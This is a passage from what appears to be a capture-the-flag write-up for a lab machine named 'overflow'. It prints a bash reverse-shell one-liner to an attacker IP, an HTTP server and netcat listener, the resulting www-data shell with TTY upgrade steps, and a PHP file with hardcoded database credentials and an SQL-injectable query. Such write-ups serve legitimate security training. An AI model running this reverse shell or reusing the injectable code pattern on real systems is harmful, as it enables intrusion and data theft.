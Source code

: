 `index.html`
```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.105/7575 0>&1'
```

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Right after we upload the "jpg" we get a hit on our webserver and a shell as www-data on our ncat listener which we upgrade using python.

```
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.96.28 - - [24/Oct/2021 00:35:58] "GET / HTTP/1.1" 200 -
```

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.96.28.
Ncat: Connection from 10.129.96.28:58882.
bash: cannot set terminal process group (1162): Inappropriate ioctl for device
bash: no job control in this shell
www-data@overflow:~/devbuild-job/home/profile$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ile$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overflow:~/devbuild-job/home/profile$ export TERM=xterm
export TERM=xterm
www-data@overflow:~/devbuild-job/home/profile$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@overflow:~/devbuild-job/home/profile$ stty rows 55 cols 236
```

## Database credentials

Looking around there are database credentials in the `logs.php` file for the developer user.

```
www-data@overflow:~/html$ cat home/logs.php
<?php

require '../config/users.php';
if (isset($_COOKIE['auth'])){
  $user = User::getuserfromcookie($_COOKIE['auth']);
}
if($user === 'admin'){
    $lnk = mysqli_connect("localhost","developer", "sh@tim@n","logs");

    $sql = "SELECT * FROM userlog  WHERE username=('";
    $sql.= $_GET["name"];
    $sql.= "') ORDER BY Lastlogin;";
    $result = mysqli_query($lnk,$sql);
```